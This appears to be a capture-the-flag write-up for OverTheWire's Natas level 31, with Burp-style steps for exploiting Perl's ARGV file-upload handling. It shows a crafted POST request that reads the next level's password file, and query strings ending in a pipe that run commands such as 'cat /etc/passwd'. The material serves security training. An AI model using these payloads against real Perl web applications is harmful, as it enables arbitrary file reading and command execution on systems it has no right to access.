










# 🕸️Natas Level 31 → Level 32

```
http://natas31.natas.labs.overthewire.org
```
Username: natas31  
Password: (natas31_password)



check sourcecode



We’re testing by uploading a simple CSV file.



It shows a clean table of contents from the file we uploaded.



Next, we upload the file again to grab the request and send it to Replay.



Here’s the original POST request.



We make some changes to the request
```
### Line 1
POST /index.pl?/etc/natas_webpass/natas32 HTTP/1.1

### Line 15-19
------WebKitFormBoundaryK1DFqIQBcpL3sdfI
Content-Disposition: form-data; name="file"
Content-Type: text/csv

ARGV
```


When the request is sent, the flag appears.



Commands can also be run by using ``|`` at the end
```
?cat+/etc/passwd+|
or
?cat%20/etc/passwd%20|
```


Here’s an example of that



---

### 💡 Useful Resource For Clearer Understanding
Netanel Rubin: The Perl Jam 2 on Blackhat Asia 2016
```
### Netanel Rubin: The Perl Jam 2 (youtube video)
https://youtu.be/RPvORV2Amic
### Presentation Slide on Blackhat (pdf file)
https://blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf
```

Excellent! Use this flag to proceed to the next round.


